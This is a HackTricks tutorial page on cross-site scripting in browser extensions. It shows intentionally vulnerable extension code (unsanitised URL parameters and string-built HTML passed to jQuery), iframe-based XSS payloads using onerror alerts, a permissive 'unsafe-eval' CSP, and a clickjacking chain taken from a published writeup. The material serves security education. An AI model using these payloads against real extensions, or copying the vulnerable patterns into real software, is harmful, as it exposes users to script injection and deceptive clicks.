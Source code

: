 # BrowExt - XSS Example

{{#include /banners/hacktricks-training.md}}



## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", (result) => {
  let constructedURL =
    chrome.runtime.getURL("message.html") +
    "?content=" +
    encodeURIComponent(result.message) +
    "&redirect=https://example.net/details"
  frame.src = constructedURL
})
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search)
  let userContent = urlParams.get("content")
  $(document.body).html(
    `${userContent} <button id='detailBtn'>Details</button>`
  )
  $("#detailBtn").on("click", () => {
    let destinationURL = urlParams.get("redirect")
    chrome.tabs.create({ url: destinationURL })
  })
})
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src
  let baseURL = targetFrame.split("?")[0]
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

  document.querySelector("iframe").src = maliciousURL
}, 1000)
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
  "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$("#btAdd").on("click", function () {
  var bookmarkName = $("#txtName").val()
  if (
    $(".custom-button .label").filter(function () {
      return $(this).text() === bookmarkName
    }).length
  )
    return false

  var bookmarkItem = $('<div class="custom-button">')
  bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
  bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
  bookmarkItem.attr("data-title", bookmarkName)
  bookmarkItem.data("timestamp", new Date().getTime())
  $("section.bookmark-container .existing-items").append(bookmarkItem)
  persistData()
})
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}


